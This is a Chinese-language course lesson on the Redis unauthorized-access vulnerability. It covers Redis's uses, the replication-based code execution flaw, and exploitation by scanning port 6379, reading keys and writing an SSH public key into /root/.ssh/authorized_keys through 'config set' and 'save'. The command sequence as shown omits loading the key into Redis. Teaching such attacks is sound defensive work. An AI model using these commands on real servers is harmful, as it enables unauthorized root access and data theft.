



# 网络安全系统教学合集：P53：Redis未授权访问漏洞

## 概述
在本节课中，我们将要学习Redis未授权访问漏洞。这是一个在内网环境中较为常见，且在企业级应用中也可能遇到的漏洞。我们将从Redis的基本介绍开始，逐步深入到漏洞的发现与利用方法。

---



## 第一部分：Redis相关介绍 🗄️


上一节我们概述了本节课的内容，本节中我们来看看Redis究竟是什么。

Redis是一个完全开源、遵守BSD协议的高性能Key-Value数据库。你可以简单地将其理解为一个存储键值对（Key-Value）的数据库。

以下是Redis主要的应用场景：
*   **缓存数据**：在日常数据库访问中，读操作的频率远高于写操作，比例大约在1:9到3:7之间。如果每次读操作都直接查询数据库，数据库需要从磁盘检索数据，这个过程相对较慢。Redis可以将热点数据存储在内存中，极大地提升读取速度。
*   **高并发读写场景**：在如“双十一”购物节、抢红包、演唱会门票售卖等高并发场景下，瞬间会有成千上万的请求到达服务器。如果仅靠传统数据库处理，极易导致系统缓慢甚至崩溃。Redis的高性能读写能力可以很好地应对此类场景。

---

## 第二部分：Redis历史上的漏洞 ⚠️

了解了Redis的基本用途后，本节我们来看看它在历史上出现过的安全漏洞。

Redis主要有两类漏洞：
1.  **未授权访问漏洞**：由于配置不当，导致攻击者无需认证即可访问Redis数据库内部数据。此漏洞危害极大，可导致敏感信息泄露、执行`FLUSHALL`命令清空所有数据库，或利用数据备份功能向服务器磁盘写入后门文件。如果Redis服务以root身份运行，攻击者甚至可以直接写入SSH公钥，实现免密登录服务器。
2.  **主从复制代码执行漏洞**：在Redis 4.x版本之后，Redis新增了模块功能，允许通过外部扩展实现新的Redis命令。攻击者可以构造恶意的`.so`扩展文件，并利用主从复制机制让目标Redis服务器加载该文件，从而达到远程代码执行的目的。简单来说，此漏洞就是诱使Redis加载外部的恶意模块文件来执行任意代码。

---



## 第三部分：漏洞发现与利用 🔍

在介绍了漏洞原理后，本节我们进入实践环节，看看如何发现和利用Redis未授权访问漏洞。

以下是发现Redis服务的常用方法：
*   使用端口扫描工具（如Nmap）探测目标开放端口，Redis默认服务端口为**6379**。
*   识别到开放6379端口的主机后，可以尝试使用Redis客户端（如`redis-cli`）进行连接测试。

**连接测试命令示例：**
```bash
redis-cli -h <目标IP> -p 6379
```
如果连接成功且无需密码，则存在未授权访问漏洞。

连接成功后，即可执行Redis命令。例如，信息泄露和写入SSH公钥的利用思路如下：
*   **信息泄露**：使用`keys *`命令列出所有键名，使用`get <key>`命令获取对应值。
*   **写入SSH公钥**：
    1.  在攻击机生成SSH密钥对：`ssh-keygen -t rsa`。
    2.  将公钥文件内容写入一个文本文件，并在前后追加换行符：`(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt`。
    3.  通过Redis未授权访问，将该文件内容写入目标服务器的`/root/.ssh/authorized_keys`文件中。

**关键利用命令示例：**
```bash
# 连接到目标Redis
redis-cli -h 192.168.1.100
# 设置数据库的备份路径为/root/.ssh/
config set dir /root/.ssh/
# 设置备份文件名为authorized_keys
config set dbfilename authorized_keys
# 保存（此操作会将当前内存数据写入指定文件）
save
```
执行成功后，攻击机即可使用对应的私钥直接SSH登录目标服务器root账户。

---



## 总结
本节课中，我们一起学习了Redis未授权访问漏洞。我们首先介绍了Redis作为一种高性能Key-Value数据库的基本概念与常见应用场景。接着，我们分析了Redis历史上两类主要漏洞：未授权访问和主从复制代码执行漏洞的原理与危害。最后，我们探讨了如何通过端口扫描发现漏洞，并详细讲解了利用未授权访问漏洞进行信息泄露和写入SSH公钥获取服务器权限的具体方法。理解此漏洞有助于加强在部署和配置Redis服务时的安全意识。